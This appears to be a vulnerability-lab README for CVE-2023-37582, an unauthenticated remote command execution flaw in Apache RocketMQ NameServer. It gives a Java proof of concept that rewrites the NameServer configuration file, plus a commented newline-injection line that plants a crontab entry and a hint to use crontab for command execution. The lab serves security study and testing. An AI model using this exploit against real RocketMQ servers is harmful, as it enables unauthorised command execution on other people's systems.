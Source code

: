 # Apache RocketMQ Remote Command Execution Vulnerability (CVE-2023-37582)

The RocketMQ NameServer component still has a remote command execution vulnerability as the CVE-2023-33246 issue was not completely fixed in version 5.1.1.

When NameServer address are leaked on the extranet and lack permission verification, an attacker can exploit this vulnerability by using the update configuration function on the NameServer component to execute commands as the system users that RocketMQ is running as.

## Affected Version

- Apache RocketMQ 5.x <= 5.1.1
- Apache RocketMQ <= 4.9.6

## Usage

Run following command to startup the apache rocketmq, the NameServer and Broker was listing on `9876` and `10911`.

```bash
docker-compose up
```

### Poc of CVE-2023-37582

The poc below will write the configuration file of NameServer to `/tmp/rocketmq`,

```java
public class Main {
    public static void main(String[] args) throws Exception {
        Properties props = new Properties();
        // try to write as crontab
        // props.setProperty("productEnvName", "anything\\n1 * * * * {user} touch /tmp/crontab_success");
        props.setProperty("productEnvName", "anything");
        props.setProperty("configStorePath", "/tmp/rocketmq");
        DefaultMQAdminExt admin = new DefaultMQAdminExt();
        admin.setNamesrvAddr("0.0.0.0:9876");
        admin.start();

        LinkedList<String> list = new LinkedList<>();
        list.add("127.0.0.1:9876");
        admin.updateNameServerConfig(props, list);

        admin.shutdown();
    }
}
```

After running, you will see the file `/tmp/rocketmq` with content

```
bindAddress=0.0.0.0
clientRequestThreadPoolNums=8
clientRequestThreadPoolQueueCapacity=50000
clusterTest=false
configStorePath=/tmp/rocketmq
defaultThreadPoolNums=16
defaultThreadPoolQueueCapacity=10000
enableAllTopicList=true
enableControllerInNamesrv=false
enableTopicList=true
kvConfigPath=/root/namesrv/kvConfig.json
listenPort=9876
needWaitForService=false
notifyMinBrokerIdChanged=false
orderMessageEnable=false
productEnvName=anything
returnOrderTopicConfigToBroker=true
rocketmqHome=/opt/rocketmq-all-5.1.0
scanNotActiveBrokerInterval=5000
serverAsyncSemaphoreValue=64
serverCallbackExecutorThreads=0
serverChannelMaxIdleTimeSeconds=120
serverOnewaySemaphoreValue=256
serverPooledByteBufAllocatorEnable=true
serverSelectorThreads=3
serverSocketBacklog=1024
serverSocketRcvBufSize=0
serverSocketSndBufSize=0
serverWorkerThreads=8
supportActingMaster=false
unRegisterBrokerQueueCapacity=3000
useEpollNativeSelector=false
waitSecondsForService=45
writeBufferHighWaterMark=0
writeBufferLowWaterMark=0
```

> Since the `org.apache.rocketmq.broker.filtersrv.FilterServerManager` was removed from `5.1.1`, you can try to exploit it with writing the content to a crontab file for command execution.

## Reference

1. https://lists.apache.org/thread/m614czxtpvlztd7mfgcs2xcsg36rdbnc
